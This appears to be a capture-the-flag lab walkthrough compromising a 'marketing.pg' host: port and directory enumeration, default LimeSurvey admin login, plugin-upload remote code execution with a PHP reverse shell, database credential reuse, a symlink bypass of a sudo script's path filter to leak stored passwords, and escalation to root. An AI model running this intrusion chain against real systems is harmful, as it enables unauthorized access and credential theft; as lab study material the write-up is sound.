As a standard procedure, I initiated 3 different Nmap scans. The first covered all 65,535 TCP ports to ensure no service was missed. The second was a targeted service scan on identified ports to determine versions, and the third focused on the top 10 UDP ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:49 UTC
Nmap scan report for 192.168.170.225
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 16.22 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:50 UTC
Nmap scan report for 192.168.170.225
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
| 256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_ 256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: marketing.pg - Digital Marketing for you!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:51 UTC
Nmap scan report for 192.168.170.225
Host is up (0.045s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp closed dhcps
123/udp closed ntp
135/udp closed msrpc
137/udp closed netbios-ns
138/udp closed netbios-dgm
161/udp closed snmp
445/udp closed microsoft-ds
631/udp open|filtered ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds
I mapped the target IP address to marketing.pg in the /etc/hosts file for easier navigation.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.170.225 marketing.pg' | sudo tee -a /etc/hosts
[sudo] password for kali:
192.168.170.225 marketing.pg
Only ports 22 and 80 were open. For the HTTP service, I ran the http-enum Nmap script for quick wins, which revealed /old and /vendor directories.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-27 18:52 UTC
Nmap scan report for 192.168.170.225
Host is up (0.046s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-enum:
| /old/: Potentially interesting folder
|_ /vendor/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.48 seconds
Although the index.html files in the root and /old appeared identical, I discovered a hidden link to customers-survey.marketing.pg within the source code of the /old page.
/old


I added this subdomain to my /etc/hosts file as well.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.170.225 customers-survey.marketing.pg' | sudo tee -a /etc/hosts
192.168.170.225 customers-survey.marketing.pg
Navigating to the subdomain revealed a LimeSurvey instance.

Using gobuster for directory brute-forcing and researching for default credentials, I successfully logged in as admin:password .
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://customers-survey.marketing.pg> -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://customers-survey.marketing.pg>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 403,404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/LICENSE (Status: 200) [Size: 49474]
/admin (Status: 301) [Size: 346] [--> <http://customers-survey.marketing.pg/admin/>]
/assets (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/assets/>]
/index.php (Status: 200) [Size: 47972]
/installer (Status: 301) [Size: 350] [--> <http://customers-survey.marketing.pg/installer/>]
/modules (Status: 301) [Size: 348] [--> <http://customers-survey.marketing.pg/modules/>]
/package.json (Status: 200) [Size: 62]
/plugins (Status: 301) [Size: 348] [--> <http://customers-survey.marketing.pg/plugins/>]
/tests (Status: 301) [Size: 346] [--> <http://customers-survey.marketing.pg/tests/>]
/themes (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/themes/>]
/tmp (Status: 301) [Size: 344] [--> <http://customers-survey.marketing.pg/tmp/>]
/upload (Status: 301) [Size: 347] [--> <http://customers-survey.marketing.pg/upload/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================



I found this Github repository leveraging a plugin exploit to gain Remote Code Execution. The author also wrote the instruction on how to perform the exploit very clearly.
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
I created a config.xml and a PHP reverse shell, archived them as a ZIP file.
┌──(kali㉿kali)-[~/Desktop/Limesurvey-RCE]
└─$ zip wook.zip config.xml php-rev.php
adding: config.xml (deflated 56%)
adding: php-rev.php (deflated 60%)
┌──(kali㉿kali)-[~/Desktop/Limesurvey-RCE]
└─$ unzip -l wook.zip
Archive: wook.zip
Length Date Time Name
--------- ---------- ----- ----
756 2026-01-28 01:59 config.xml
2430 2026-01-28 02:00 php-rev.php
--------- -------
3186 2 files

Uploaded them via Configuration → Plugins → Upload & Install. Upon activating the plugin, I received a reverse shell as the www-data user.

www-data┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 → 127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from marketing~192.168.170.225-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /home/kali/.penelope/sessions/marketing~192.168.170.225-Linux-x86_64/2026_01_28-02_07_20-684.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@marketing:/$ whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
marketing
www-data@marketing:/$
www-data@marketing:/home$ ls -R
.:
m.sander t.miller
./m.sander:
personal
ls: cannot open directory './m.sander/personal': Permission denied
./t.miller:
local.txt
www-data@marketing:/home/t.miller$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
t.miller:x:1000:1000::/home/t.miller:/bin/bash
m.sander:x:1001:1001::/home/m.sander:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
While manually enumerating the system, I found database credentials in /var/www/LimeSurvey/application/config/config.php .

Although the MySQL database contained no sensitive information, I successfully performed password reuse by testing these credentials against the user t.miller . This allowed me to pivot to a user shell.
www-data@marketing:/$ mysql -h localhost -u limesurvey_user -p'EzPwz2022_dev1$$23!!'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor. Commands end with ; or \\g.
Your MySQL connection id is 70
Server version: 8.0.29-0ubuntu0.20.04.3 (Ubuntu)
Copyright (c) 2000, 2022, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.
mysql>
mysql> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| limesurvey |
+--------------------+
2 rows in set (0.05 sec)
t.millerwww-data@marketing:/$ su t.miller
Password:
t.miller@marketing:/$ whoami;id;hostname
t.miller
uid=1000(t.miller) gid=1000(t.miller) groups=1000(t.miller),24(cdrom),46(plugdev),50(staff),100(users),119(mlocate)
marketing
Found local.txt
t.miller@marketing:~$ cat local.txt
cb9...
Running sudo -l showed that t.miller could run /usr/bin/sync.sh as the user m.sander .
t.miller@marketing:/$ sudo -l
Matching Defaults entries for t.miller on marketing:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin
User t.miller may run the following commands on marketing:
(m.sander) /usr/bin/sync.sh
The sync.sh script is a file synchronization tool that overwrites a target file (/home/m.sander/personal/notes.txt ) if a difference is detected.
t.miller@marketing:/$ cat /usr/bin/sync.sh
#! /bin/bash
if [ -z $1 ]; then
echo "error: note missing"
exit
fi
note=$1
if [[ "$note" =~ .*m.sander.* ]]; then
echo "error: forbidden"
exit
fi
difference=$(diff /home/m.sander/personal/notes.txt $note)
if [[ -z $difference ]]; then
echo "no update"
exit
fi
echo "Difference: $difference"
cp $note /home/m.sander/personal/notes.txt
echo "[+] Updated."
By providing an empty file as an argument, the diff command within the script leaked the entire contents of the target file to the terminal. However, it didn’t lead me to anything exploitable.
t.miller@marketing:/tmp$ touch /tmp/empty.txt
t.miller@marketing:/tmp$ sudo -u m.sander /usr/bin/sync.sh /tmp/empty.txt
[sudo] password for t.miller:
Difference: 1,3d0
< == NOTES ==
< - remove vhost from website (done)
< - update to newer version (todo)
\\ No newline at end of file
[+] Updated.
Checking /etc/group revealed that both t.miller and m.sander belonged to the mlocate group.
t.miller@marketing:/$ cat /etc/group
...
mlocate:x:119:m.sander,t.miller
There is mlocate.db file that belongs to mlocate group.
t.miller@marketing:/tmp$ find / -group mlocate 2>/dev/null
/var/lib/mlocate/mlocate.db
/usr/bin/mlocate

t.miller@marketing:/tmp$ cat mlocate_copy | grep m.sander
Binary file (standard input) matches
I examined the mlocate.db file using grep -a (to treat the binary as text), which exposed a hidden file: /home/m.sander/personal/creds-for-2022.txt .
t.miller@marketing:/tmp$ cat mlocate_copy | grep -a m.sander

The script blocks any path containing the string “m.sander.” To bypass this, I created a symbolic link in my current directory pointing to the credentials file creds-for-2022.txt .
t.miller@marketing:~$ ln -s /home/m.sander/personal/creds-for-2022.txt a_symlink
Since the link name did not contain the forbidden string, the script processed it, and the diff output revealed the passwords.
t.miller@marketing:~$ sudo -u m.sander /usr/bin/sync.sh a_symlink
Difference: 1,3c1,8
< == NOTES ==
< - remove vhost from website (done)
< - update to newer version (todo)
\\ No newline at end of file
---
> slack account:
> michael_sander@gmail.com - pa$$word@123$$4!!
>
> github:
> michael_sander@gmail.com - EzPwz2022_dev1$$23!!
>
> gmail:
> michael_sander@gmail.com - EzPwz2022_12345678#!
\\ No newline at end of file
[+] Updated.
m.sanderAfter logging in as m.sander , I checked the sudo permissions and found that the user had full sudo privileges (ALL:ALL).
t.miller@marketing:~$ su m.sander
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
m.sander@marketing:/home/t.miller$ whoami;id;hostname
m.sander
uid=1001(m.sander) gid=1001(m.sander) groups=1001(m.sander),24(cdrom),27(sudo),46(plugdev),50(staff),100(users),119(mlocate)
marketing
m.sander@marketing:/home/t.miller$ sudo -l
[sudo] password for m.sander:
Matching Defaults entries for m.sander on marketing:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin
User m.sander may run the following commands on marketing:
(ALL : ALL) ALL
rootI executed sudo /bin/bash -p to obtain a root shell and completed the challenge.
m.sander@marketing:/home/t.miller$ sudo -l
[sudo] password for m.sander:
Matching Defaults entries for m.sander on marketing:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin
User m.sander may run the following commands on marketing:
(ALL : ALL) ALL
Found proof.txt
root@marketing:~# cat proof.txt
b2b...